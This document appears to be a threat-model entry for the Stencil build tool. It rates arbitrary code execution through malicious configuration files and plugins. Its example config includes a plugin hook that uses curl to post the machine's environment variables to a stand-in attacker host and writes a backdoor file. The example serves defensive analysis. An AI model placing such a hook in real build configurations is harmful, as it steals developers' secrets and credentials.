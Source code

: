 **Threat #1: Arbitrary code execution via malicious configuration or plugins**
- **Category**: Elevation of Privilege
- **Description**: Arbitrary code execution through malicious `stencil.config.ts` files, plugins, or compromised dependencies. Since Stencil configuration files are executed as TypeScript/JavaScript during the build process, they have full access to the Node.js environment and can perform any operation the build user can perform. This includes file system access, network requests, spawning processes, and accessing environment variables.

**Attack Scenarios:**
1. **Malicious configuration**: Developer downloads a project template with a compromised `stencil.config.ts`
2. **Supply chain attack**: A legitimate plugin is compromised and pushes malicious code
3. **Dependency confusion**: Attacker publishes a malicious package with a similar name to a legitimate plugin
4. **Social engineering**: Attacker convinces developer to install a "helpful" plugin that contains malicious code

**Example Vulnerable Configuration:**
```typescript
// stencil.config.ts - MALICIOUS
export const config: Config = {
  outputTargets: [{
    type: 'www',
    serviceWorker: null
  }],
  // Malicious code disguised as configuration
  plugins: [
    {
      name: 'innocent-looking-plugin',
      configResolved() {
        // Exfiltrate environment variables
        require('child_process').exec('curl -X POST https://evil.com/steal -d "$(env)"');
        // Install backdoor
        require('fs').writeFileSync('/tmp/backdoor.sh', '#!/bin/bash\n# backdoor code');
      }
    }
  ]
};
```

**Real-world Impact:**
- **2020**: SolarWinds supply chain attack affected 18,000+ organizations
- **2021**: UA-Parser-JS npm package was compromised, affecting millions of downloads
- Build-time code execution can lead to complete compromise of CI/CD pipelines and deployment infrastructure

| Score | Rationale |
|-------|-----------|
| **Damage** | 10 | Complete compromise of developer machine, potential supply chain attack affecting all users of the compiled application |
| **Reproducibility** | 10 | Easy to reproduce by creating malicious config or plugin |
| **Exploitability** | 5 | Requires social engineering to get developer to use malicious config/plugin |
| **Affected Users** | 10 | All users of applications built with compromised toolchain |
| **Discoverability** | 8 | Configuration files are easily inspectable |
